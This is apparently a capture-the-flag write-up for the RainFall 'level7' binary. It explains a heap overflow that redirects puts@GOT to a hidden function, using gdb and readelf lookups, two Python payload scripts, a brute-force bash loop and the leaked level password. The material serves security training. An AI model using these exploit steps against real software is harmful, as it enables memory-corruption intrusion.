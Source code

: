 LEVEL_7:
# 📚 Exploiting `level7` – overwrite the function pointer

# Heap overflow
What's happening in the code

This program appears to take two command-line arguments, stores them in malloced memory, and copies them using strcpy():
```
strcpy((char *)puVar1[1], *(char **)(param_2 + 4));  // argv[1]
strcpy((char *)puVar3[1], *(char **)(param_2 + 8));  // argv[2]
```
Then it reads a secret file into a global variable c:
```
fgets(c, 0x44, __stream);  // Read password into c
puts('~~')
```
The goal is to somehow call the m() function, which prints c, thus leaking the password.
```
printf("%s - %d\n", c, time(0));
```
So the input is directly copied into malloc'd memory, with no length checking. This is a classic heap-based *buffer overflow*.

## How to exploit it
### overwriting the GOT entry for puts(), which the program does definitely call right after reading the password.
After reading the secret into c, main() does:
If you overwrite the GOT slot for puts with the address of m, then:
```
puts("~~");
```
becomes effectively:
```
m("~~", /*garbage*/, /*garbage*/, /*garbage*/, /*garbage*/);
```
## Find the puts@GOT address
```
level7@RainFall:~$ readelf -r ./level7 | grep ' R_386_JUMP_SLOT.*puts'
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
```
## Find the address of m()
```
gdb ./level7
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>

```

## Two-Stage Heap Overflow → GOT Overwrite

Chunk A (8 bytes) → contains [1, ptr_to_B]

Chunk B (8 bytes) → destination of argv[1]

Chunk C (8 bytes) → contains [2, ptr_to_D]

Chunk D (8 bytes) → destination of argv[2]

### Stage 1: Overflow Chunk B to point b[1] at puts@GOT
```
#!/usr/bin/env python2
import sys
from struct import pack

if len(sys.argv) != 3:
    sys.stderr.write("Usage: %s <pad_len> <got_addr_hex>\n" % sys.argv[0])
    sys.exit(1)

pad_len = int(sys.argv[1])
got_addr = int(sys.argv[2], 16)

payload  = b"A" * pad_len
payload += pack("<I", got_addr)
sys.stdout.write(payload)
```
### stage2: Overflow Chunk D to write m() into puts@GOT
```
#!/usr/bin/env python2
import sys
from struct import pack

m_addr = 0x080484f4
sys.stdout.write(pack("<I", m_addr) + "\x00")
```
### We’ll then make a simple bash loop to try pad values from 8 up to, say, 20.
```
for pad in $(seq 8 20); do
  echo "=== Trying pad = $pad ==="
  ./level7 "$(./stage1.py $pad 0x08049928)" "$(./stage2.py)"
  echo
done
```
after executing it:
=== Trying pad = 8 ===
~~

=== Trying pad = 9 ===
~~
...

=== Trying pad = 18 ===
Segmentation fault (core dumped)

=== Trying pad = 19 ===
Segmentation fault (core dumped)

=== Trying pad = 20 ===
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1754601545
